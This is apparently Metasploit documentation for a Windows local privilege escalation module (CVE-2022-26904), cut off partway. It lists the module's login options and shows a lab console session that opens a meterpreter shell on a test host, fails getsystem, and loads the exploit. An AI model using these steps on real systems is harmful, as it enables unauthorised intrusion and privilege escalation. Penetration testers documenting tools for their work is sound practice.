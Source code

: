 ## Options

### LOGINUSER

The username of a valid user who has logged into the target system before and has a profile under `C:\Users` with their username in
`C:\Users\<username>.<domain>\` format if targeting a domain user or `C:\Users\<username>\` if targeting a local user account. This user
must not be an administrator or any account that would run with High integrity to ensure the UAC prompt appears as expected, and should ideally
be another normal user account that has permissions to log into the target computer.

### LOGINPASSWORD

The password for the LOGINUSER user.

### LOGINDOMAIN

The domain that the LOGINUSER belongs to and which we will log into.

## Scenarios

### Windows 11 Build 10.0.22000.556

```
msf payload(windows/x64/meterpreter/reverse_tcp) > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf exploit(multi/handler) > set RHOST 172.19.78.176
RHOST => 172.19.78.176
msf exploit(multi/handler) > exploit

[*] Started bind TCP handler against 172.19.78.176:4444
[*] Sending stage (200262 bytes) to 172.19.78.176
[*] Meterpreter session 1 opened (172.19.70.15:38009 -> 172.19.78.176:4444 ) at 2022-03-28 17:17:13 -0500

meterpreter > getuid
Server username: WIN11-TEST\normal
meterpreter > sysinfo
Computer        : WIN11-TEST
OS              : Windows 10 (10.0 Build 22000).
Architecture    : x64
System Language : en_US
Domain          : TESTINGDOMAIN
Logged On Users : 10
Meterpreter     : x64/windows
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: 1346 The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[-] Named Pipe Impersonation (RPCSS variant)
[-] Named Pipe Impersonation (PrintSpooler variant)
meterpreter > background
[*] Backgrounding session 1...
msf exploit(multi/handler) > use exploit/windows/local/cve_2022_26904_superprofile
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf exploit(windows/local/cve_2022_26904_superprofile) > show options

Module options (exploit/windows/local/cve_2022_26904_superprofile):

```